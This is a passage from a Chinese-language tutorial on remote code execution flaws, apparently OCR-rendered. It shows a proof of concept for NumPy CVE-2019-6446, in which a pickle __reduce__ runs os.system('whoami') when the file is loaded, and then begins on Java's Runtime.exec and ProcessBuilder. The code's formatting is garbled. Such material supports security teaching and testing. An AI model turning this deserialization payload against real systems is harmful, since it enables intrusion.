 #### 反序列化

详细原理及利用参考文库文章：python 反序列化 (https://bbs.zkaq.cn/t/4893.html#Python)

举例:

NumPy rce CVE-2019-6446

通过 NumPy.lib.npyio.p 之中的 load() 方法加载序列化文件，通过 file 形参传入文件，由于 allow_pickle=True，所以可以采用序列化文件。

漏洞的执行流程为：NumPy.lib.npyio.pyload()=>pickle.py load()

默认情况下 allow_pickle=True，允许通过文件反序列化, POC 如下：

```
from numpy.lib import npyio
from numpy import __version__
print(__version__)
import os
classTest(object):
def __init__(self):
        self.a =1
def __reduce__(self):
return(os.system,('whoami',))
if __name__ =='__main__':
        tmpdaa =Test()
        npyio.save("test",tmpdaa)
        npyio.load("test.npy")
或者可以通过 pickles，POC 如下：
from numpy.lib import npyio
from numpy import __version__
print(__version__)
import os
import pickle
classTest(object):
def __init__(self):
        self.a =1
def __reduce__(self):
return(os.system,('whoami',))
tmpdaa =Test()
with open("test-file.pickle",'wb')as f:
    pickle.dump(tmpdaa,f)
npyio.load("test-file.pickle")
```

### java

#### 程序方法调用不当

因为代码编写不规范，缺少参数过滤等原因，导致程序通过 Java 执行系统命令，与 cmd 中或者终端上一样执行了 shell 命令所造成的 RCE 漏洞。

最典型的就是使用了 Runtime.getRuntime().exec(command)

或者 new ProcessBuilder(cmdArray).start()。

Runtime.getRuntime().exec()

